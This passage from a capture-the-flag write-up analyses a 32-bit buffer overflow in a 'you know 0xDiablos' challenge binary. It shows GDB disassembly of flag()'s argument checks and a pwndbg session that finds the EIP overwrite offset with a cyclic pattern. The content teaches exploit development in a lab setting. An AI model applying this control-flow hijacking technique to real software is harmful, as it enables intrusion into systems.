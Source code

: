 Analysing this function through GDB helps in dissecting what the program is doing on the assembly level\:

{% highlight bash %}
0x08049246 <+100>\:   cmp    DWORD PTR [ebp+0x8],0xdeadbeef                          
0x0804924d <+107>\:   jne    0x8049269 <flag+135>                                    
0x0804924f <+109>\:   cmp    DWORD PTR [ebp+0xc],0xc0ded00d
{% endhighlight %}

The aforementioned if statement compares the value of the base pointer + 8 to 0xdeadbeef and the base pointer + 12 to 0xc0ded00d. Therefore, a successful exploit will constitute the control of the foregoing base pointer addresses along with the overwriting of the EIP register to point to the flag() function.

Constructing Exploit
--------------------

### EIP Offset

The offset of the EIP register overwrite must first be determined. Within GDB, in order to provide an input to a program which prompts the user for a string, the desired string must first be echoed into a file. The contents of this file can then be run within the debugger. Hence, using the cyclic function, a pattern of 200 bytes was echoed into a file called eip_overwrite as follows\:

{% highlight bash %}
┌─[0xd4y@Writeup]─[~/business/hackthebox/easy/windows/love]                                                                                                                  
└──╼ $cyclic 200 > eip_overwrite
{% endhighlight %}

The contents of this file are then piped into the program with r < eip_overwrite\:

{% highlight bash %}
┌─[0xd4y@Writeup]─[~/business/hackthebox/challenges/pwn/easy/you_know]                                                                                                
└──╼ $gdb -q ./vuln  
pwndbg\: loaded 196 commands. Type pwndbg [filter] for a list.pwndbg\: created $rebase, $ida gdb functions (can be used with print/break)  
Reading symbols from ./vuln...                                                          
(No debugging symbols found in ./vuln)                                                                                                                                        
pwndbg> r < eip_overwrite  
Starting program\: /home/0xd4y/business/hackthebox/challenges/pwn/easy/you_know/vuln < eip_overwrite  
You know who are 0xDiablos\:  
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabs  
aabtaabuaabvaabwaabxaabyaab                                                                                                                                                    
                                                                                                                                                                             
Program received signal SIGSEGV, Segmentation fault.  
0x62616177 in ?? ()          LEGEND\: STACK | HEAP | CODE | DATA | RWX | RODATA  
────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────────────────────────EAX  0xc9                EBX  0x62616175 ('uaab')  
ECX  0xffffffffEDX  0xffffffffEDI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es\:[edi], dx /* 0x1e4d6c */ESI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es\:[edi], dx /* 0x1e4d6c */EBP  0x62616176 ('vaab')  
ESP  0xffffd020 ◂-- 'xaabyaab'  
EIP  0x62616177 ('waab')  
─────────────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────────────  
Invalid address 0x62616177

The EIP register was successfully overwritten, and the offset can now be calculated with cyclic -l 0x62616177\:

pwndbg> cyclic -l 0x62616177  
188
{% endhighlight %}
